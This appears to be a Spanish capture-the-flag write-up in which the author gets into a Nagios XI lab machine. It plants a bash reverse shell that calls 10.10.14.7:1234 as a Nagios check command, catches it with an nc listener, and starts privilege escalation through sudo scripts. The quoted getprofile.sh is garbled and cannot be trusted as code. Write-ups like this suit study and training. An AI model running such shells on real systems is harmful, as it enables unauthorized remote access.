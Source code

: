
Nos pide cambiar la contraseña la primera vez que ingresamos. Una vez hecho, a continuación nos vamos a Configure > Core Config Manager > Commands

![image](https://github.com/user-attachments/assets/e666efca-d668-495c-86e0-df241143d1aa)


A continuación introducimos el siguiente payload para obtener una reverse shell:

```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/1234 0>&1'
```

![image](https://github.com/user-attachments/assets/a71f8e60-4702-436a-bfb8-d6914e1cb2c7)

Aplicamos la configuración.

Iniciamos un listener en el puerto que hayamos configurado:

```bash
 rlwrap nc -lnvp 1234     
```


Por último, vamos a Monitorización > Hosts y pulsamos sobre localhost . Seleccionamos ashell como comando de comprobación y pulsamos en Ejecutar comando de comprobación :![[Pasted image 20250508203326.png]]

Hacemos click en Run Check Command y deberemos recibir nuestra reverse shell:

![image](https://github.com/user-attachments/assets/02d5f8a2-e625-4a14-9588-08ba3737eb57)



Obtenemos la primera flag:

```bash
nagios@monitored:~$ cat user.txt
cat user.txt
7affa**********************44a55
nagios@monitored:~$ 
```
## 🔐 Escalada de Privilegios

Al hacer un sudo -l observamos que nagios puede ejecutar una gran variedad de scripts como sudo:

![image](https://github.com/user-attachments/assets/f22213a4-538d-4b70-818a-a066d3a46773)


Uno de los que más nos puede interesar es el de getprofile.sh

Leyendo el código fuente de getprofile.sh , vemos que parte de su funcionalidad está destinada a recoger y consolidar varios registros y archivos de configuración en un directorio de perfil especificado por el usuario. Este script toma un argumento de la línea de comandos, que se supone que es el nombre o identificador del directorio para almacenar el perfil

```bash
#!/ bin / bash
#GRAB THE ID folder = $1
if
  ["$folder" == ""];
then echo "You must enter a folder name/id to generate a profile." echo
          "Example: ./getprofile.sh " exit 1 fi echo
    "Getting phpmailer.log..." 

if[-f / usr / local / nagiosxi / tmp /
                                  phpmailer.log];
then tail - 100 / usr / local / nagiosxi / tmp / phpmailer.log >
    "/usr/local/nagiosxi/var/components/profile/$folder/phpmailer.log" fi
```
